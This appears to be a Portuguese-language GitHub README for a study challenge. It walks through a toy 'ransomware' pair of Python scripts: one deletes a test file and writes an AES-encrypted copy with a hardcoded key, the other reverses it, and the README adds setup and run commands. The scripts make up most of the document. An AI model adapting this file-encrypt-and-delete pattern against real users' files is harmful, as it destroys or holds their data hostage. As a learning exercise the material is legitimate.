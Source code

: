 # Ransomware para criptografar arquivos

### Ferramentas

- Kali Linux
- Python
- vim

### Criando os códigos e arquivos

- Criar diretório e arquivos de código e texto
```shell
$ mkdir desafio-ransomware
$ touch encrypter.py
$ touch decrypter.py
$ touch teste.txt
```

- Criar o código do arquivo encrypter.py

```python 
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```

- Criar o código do arquivo decrypter.py

```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

- Criar o conteúdo do arquivo de texto

```shell
echo "alo brasil" > teste.txt
```

### Instalando biblioteca pyaes para execução do código

```shell
sudo apt install python3-pyaes
```

### Criptografando o arquivo e verificando o conteúdo

```shell
python3 encrypter.py
cat teste.txt
```

### Descriptografando o arquivo e verificando o conteúdo

```shell
python3 decrypter.py
cat teste.txt
```
